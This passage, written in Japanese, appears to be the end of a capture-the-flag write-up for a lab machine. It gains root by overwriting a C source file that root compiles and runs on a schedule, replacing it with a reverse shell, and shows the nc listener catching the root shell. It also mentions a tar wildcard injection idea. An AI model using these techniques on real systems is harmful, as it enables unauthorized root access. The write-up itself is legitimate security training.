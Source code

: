 echo, yes は悪用できるアイデアがない。

cron

```sh
cat /etc/crontab

*  *    * * *   root    cd /home/bobloblaw/Desktop/.uh_oh && tar -zcf /tmp/backup.tar.gz *
```

/home/bobloblaw/Desktop/.uh_oh にファイルを作れるのであれば、ワイルドカードを利用してシェルを実行させることができるが、今は不可能。

定期的に煽りメッセージが表示されるので、pspyをコピーして実行したところ、次のcソースがビルドされて実行されていることが分かった。

```c
$ cat .boring_file.c
#include <stdio.h>
int main() {
        printf("You haven't rooted me yet? Jeez\n");
        return 0;
}
```

上書きできる。

```sh
$ ls -al
total 16
drwxr-xr-x  3 bobloblaw bobloblaw 4096 Jul 30  2020 .
drwxrwx--- 16 bobloblaw bobloblaw 4096 Aug  6  2020 ..
drwxrwx---  2 bobloblaw bobloblaw 4096 Jul 10 06:33 .also_boring
-rw-rw----  1 bobloblaw bobloblaw   92 Jul 30  2020 .boring_file.c
```

https://www.revshells.com/ でC言語のリバースシェルコードを作成し、上書き。

rootシェル取得成功！

```sh
$ nc -lnvp 8889
listening on [any] 8889 ...
connect to [10.13.85.243] from (UNKNOWN) [10.10.146.232] 59714
id
uid=0(root) gid=0(root) groups=0(root)
```

```sh
ls -al /root
total 44
drwx------  7 root root 4096 Jul 29  2020 .
drwxr-xr-x 25 root root 4096 Jul 28  2020 ..
lrwxrwxrwx  1 root root    9 Jul 29  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Jul 27  2020 .cache
drwxr-xr-x  6 root root 4096 Jul 27  2020 .config
drwxr-xr-x  3 root root 4096 Jul 24  2020 .local
drwxr-xr-x  2 root root 4096 Jul 24  2020 .nano
drwxr-xr-x  2 root root 4096 Jul 28  2020 .patch
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--r-----  1 root root   28 Jul 26  2020 root.txt
-rw-r--r--  1 root root   66 Jul 24  2020 .selected_editor
```

## 振り返り

- brainfuckを日本語のページで実行したら無限ループになったが、英語のページで実行したらメッセージになった。信頼性はまちまちであることを覚えておく。
- 煽りメッセージがムカつくからといって、無意識的に見ないようにするのは良くないと反省。
- C言語のリバースシェルは初めてだったと思う。
